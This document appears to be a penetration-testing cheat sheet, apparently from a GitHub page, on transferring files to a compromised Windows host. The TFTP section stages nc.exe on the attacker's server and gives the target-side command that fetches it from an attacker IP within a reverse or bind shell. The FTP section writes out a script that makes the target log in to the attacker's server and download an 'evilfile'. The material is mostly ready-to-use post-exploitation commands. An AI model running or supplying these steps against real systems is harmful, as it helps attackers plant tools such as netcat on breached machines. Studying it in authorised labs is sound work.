## File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
`apt-get install pure-ftpd`

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
`chmod 755`
`./setup-ftp`

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open *ATTACKINGIP* 21> ftp.txt
echo user bedford>> ftp.txt
echo *PASSWORD*>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---

